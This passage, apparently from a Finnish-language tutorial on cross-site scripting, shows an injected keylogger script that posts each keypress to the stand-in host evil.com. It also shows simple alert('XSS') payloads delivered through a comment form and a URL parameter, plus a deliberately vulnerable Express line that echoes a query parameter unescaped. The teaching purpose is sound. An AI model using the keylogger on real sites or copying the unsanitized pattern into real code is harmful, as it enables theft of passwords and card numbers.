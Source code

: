 
### Esimerkki 3: Keylogger

```javascript
// Hakkeri injektoi:
<script>
  document.addEventListener('keypress', function(e) {
    fetch('https://evil.com/keys', {
      method: 'POST',
      body: e.key
    });
  });
</script>
```

**Mitä tapahtuu:**
- Jokainen näppäinpainallus lähetetään hyökkääjälle
- Salasanat, luottokorttinumerot, yms. varastetaan

---

## Miten hakkeri pääsee syöttämään JavaScriptiä?

### 1. Lomakkeiden kautta

```html
<!-- Kommenttilomake -->
<form action="/comment" method="POST">
  <textarea name="comment"></textarea>
  <button>Lähetä</button>
</form>
```

**Hakkeri syöttää:**
```html
<script>alert('XSS')</script>
```

Jos backend ei puhdista syötettä, se tallennetaan ja näytetään sellaisenaan.

---

### 2. URL-parametrien kautta

```
https://example.com/profile?name=<script>alert('XSS')</script>
```

Jos sivusto näyttää `name`-parametrin ilman puhdistusta:
```javascript
// ❌ Haavoittuva
res.send(`<h1>Profiili: ${req.query.name}</h1>`);
```

---
